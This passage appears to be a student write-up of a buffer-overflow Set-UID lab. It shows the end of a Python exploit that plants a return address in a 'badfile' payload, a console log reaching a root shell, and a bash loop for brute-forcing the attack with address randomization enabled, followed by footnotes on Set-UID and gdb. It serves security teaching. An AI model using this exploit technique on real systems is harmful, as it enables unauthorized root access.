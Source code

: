 ```python
# and put it somewhere in the payload
ret    = 0xffffcdc8 + 120          # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Running this code is able to get the root shell:

```console
~/Documents/BufferSetUID/code$ vim exploit.py
~/Documents/BufferSetUID/code$ ./exploit.py
~/Documents/BufferSetUID/code$ ./stack-L1
Input size: 517
# id
uid=0(root) gid=1001(seed) groups=1001(seed),120(docker)
```

## Task 8: Defeating Address Randomization

By resetting the environment

```console
$ sudo /sbin/sysctl -w kernel.randomize_va_space=2
```

address space including the positions of the stack, virtual dynamic shared object page, shared memory regions, and data segments is randomized, which is the most secure system setting.

Use the following shell script to brute-force the attack:

```console
#!/bin/bash
SECONDS=0
value=0
while true; do
    value=$(( $value + 1 ))
    duration=$SECONDS
    min = $(( $duration / 60 ))
    sec = $(( $duration % 60 ))
    echo "$min minutes and $sec seconds elapsed."
    echo "The program has been running $value times so far."
    ./stack-L1
done
```

## Notes


[^1]: From Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006.
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.